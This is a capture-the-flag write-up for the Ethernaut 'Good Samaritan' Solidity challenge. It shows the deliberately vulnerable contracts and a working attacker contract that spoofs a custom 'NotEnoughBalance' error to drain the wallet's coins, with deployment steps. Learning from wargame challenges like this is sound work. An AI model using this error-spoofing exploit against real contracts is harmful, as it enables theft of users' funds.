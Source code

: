 ```yaml
---
layout: post
title: Ethernaut - 27. Good Samaritan
date:  2022-09-16
tags: ethernaut solidity
---
```

## Difficulty: 🌕🌕🌕🌑🌑
> This instance represents a Good Samaritan that is wealthy and ready to donate some coins to anyone requesting it. <br />
Would you be able to drain all the balance from his Wallet?<br />
Things that might help:
- [Solidity Custom Errors](https://blog.soliditylang.org/2021/04/21/custom-errors/)

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns(bool enoughBalance){
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10**6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if(amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if(dest_.isContract()) {
                // notify contract 
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if(msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```

## Writeup
The `requestDonation()` in the GoodSamaritan contract will call `wallet.donate10(msg.sender)` if there are enough coins(>10) in the wallet. If coins in the wallet less then 10, it will revert `NotEnoughBalance` error and transfer all remaining coins in the wallet.
1. Get new instance.
2. Create a new contract. 
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity >=0.8.0 <0.9.0;

    interface GoodSamaritan {
        function requestDonation() external returns(bool enoughBalance);
    }

    contract GoodSamaritanAttacker {

        error NotEnoughBalance();

        function attack(address _goodsamaritan) public {
            GoodSamaritan(_goodsamaritan).requestDonation(); 
        }

        function notify(uint256 _amount) public pure {
            if(_amount==10){
                revert NotEnoughBalance();
            }
        }
    }
    ```
3. Get `GoodSamaritan` contract address by typing `instance` in the chrome console. For example: 
    ``` javascript

    instance
    // '0xa273e96Ae56e2cAb404a3221d5356Af4cdd67440'

    ```
4. Call the `attack` method in `GoodSamaritanAttacker` contract with the contract address we get above as a parameter.
5. Submit instance ξ( ✿＞◡❛)

